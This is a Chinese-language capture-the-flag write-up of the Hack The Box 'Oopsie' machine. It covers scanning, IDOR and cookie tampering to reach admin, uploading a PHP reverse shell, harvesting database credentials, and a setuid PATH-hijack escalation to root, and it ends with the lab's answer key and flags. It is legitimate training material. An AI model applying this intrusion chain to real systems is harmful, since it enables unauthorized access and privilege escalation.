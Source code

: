 ```yaml
---
title: Hack the box Oopsie题解
tags: 
  - HTB
  - 渗透测试
permalink: /archives/22239/
createTime: 2023-03-23 13:56:39
---
```


# 扫机器

拿到目标机器的IP，先看一下，开放了什么端口

```shell
nmap -sC -sV 10.129.95.191
```

![image-20230326131129358](https://img.crzliang.cn/img/image-20230326131129358.png)

80和22端口有服务在运行，先从80端口入手

在访问80端口的服务时看到这一句话，就是要让我们找登录页，但是并没有找到可以点击登录的地方

![image-20230326131240016](https://img.crzliang.cn/img/image-20230326131240016.png)

# 路径泄漏

F12打开调试就看到了泄露的路径

![image-20230326131406272](https://img.crzliang.cn/img/image-20230326131406272.png)

看到可以以游客的身份登录

![image-20230326131702056](https://img.crzliang.cn/img/image-20230326131702056.png)

登陆后看到有上传的地方，这就是我们的突破口

但是需要超级管理员的账号

![image-20230326131824692](https://img.crzliang.cn/img/image-20230326131824692.png)

# 越权

当点进**Account**页面的时候URL引起了注意，id=2，那就意味着id=1是管理员账号了，那就试试

![image-20230326131950146](https://img.crzliang.cn/img/image-20230326131950146.png)

**Account**确实是变成了admin，但是点到**Uploads**的时候还是显示需要管理员账号，那我们可以尝试看看能不能从cookie入手

![image-20230326132045627](https://img.crzliang.cn/img/image-20230326132045627.png)

对应修改好后，上传页就能用了

![image-20230326132216835](https://img.crzliang.cn/img/image-20230326132216835.png)

![image-20230326132245663](https://img.crzliang.cn/img/image-20230326132245663.png)

# 上传webshell

用的是kali自带的**php-reverse-shell.php**，使用方法**GitHub**上有

利用成功，找有用的信息

![image-20230326135027686](https://img.crzliang.cn/img/image-20230326135027686.png)

# 信息收集

在`/var/www/html/cdn-cgi/login`目录下发现了`db.php`，并且拿到了数据库的账号密码，

![image-20230326135310965](https://img.crzliang.cn/img/image-20230326135310965.png)

在`/home/robert`下拿到了`user.txt`

![image-20230326135502246](https://img.crzliang.cn/img/image-20230326135502246.png)

# 切换交互式shell

```shell
SHELL=/bin/bash script -q /dev/null
```

# 提权

用前面得到的信息切换到**robert**用户，然后使用id发现还有一个**bugtracker**组，查找此组是否具有特殊的访问权限

```shell
find / -type f -group bugtracker 2>/dev/null 			//-type f 为查找普通文档，-group bugtracker 限定查找的组为bugtracker，2>/dev/null 将错误输出到黑洞（不显示）
ls -al /usr/bin/bugtracker								//-al 以长格式方式显示并且显示隐藏文件
```

![image-20230326140625853](https://img.crzliang.cn/img/image-20230326140625853.png)

可以发现拥有者有**s**（setuid）特殊权限，可执行的文件搭配这个权限，可以得到特权，任意存取该文件的所有者能使用的全部系统资源，我们尝试运行它，发现这个文件根据提供的ID值输出以该数字为编号的bug报告

使用**strings**命令看这个命令是怎么运行的

![image-20230326141105922](https://img.crzliang.cn/img/image-20230326141105922.png)

> 1. bugtracker调用系统中的cat命令输出了位于/root/reports/目录下的bug报告，robert用户本应无权访问/root目录，而bugtracker设置了setuid后就拥有了/root目录的访问，就拥有了root权限
> 2. 且cat命令是使用绝对路径而不是相对路径来调用的，即在当前用户的环境变量指定的路径中搜寻cat命令，可以考虑创建一个恶意的cat命令，并修改当前用户环境变量，将权限提升为root

```shell
export PATH=/tmp:$PATH				//将/tmp目录设置为环境变量
cd /tmp/							//切换到/tmp目录下
echo '/bin/sh' > cat				//在此构造恶意的cat命令
chmod +x cat						//赋予执行权限
```

提权成功

![image-20230326141344832](https://img.crzliang.cn/img/image-20230326141344832.png)

然后我们可以找到**/root**目录下的**root.txt**拿到**root** **flag**（此时cat命令已被替换，无法读取文件，所以使用**more**命令）

![image-20230326141653739](https://img.crzliang.cn/img/image-20230326141653739.png)

# 答案

> 1. proxy
> 2. /cdn-cgi/login
> 3. cookie
> 4. 34322
> 5. /uploads
> 6. db.php
> 7. find
> 8. root
> 9. Set owner User ID
> 10. cat
> 11. f2c74ee8db7983851ab2a96a44eb7981
> 12. af13b0bee69f8a877c3faf667f7beacf

# 参考文章

- [渗透测试练习靶场hackthebox——Starting Point Oopsie攻略](https://blog.csdn.net/m0_48066270/article/details/108641892)
- [hack the box靶场oopsie靶机](https://blog.csdn.net/zr1213159840/article/details/123629681)
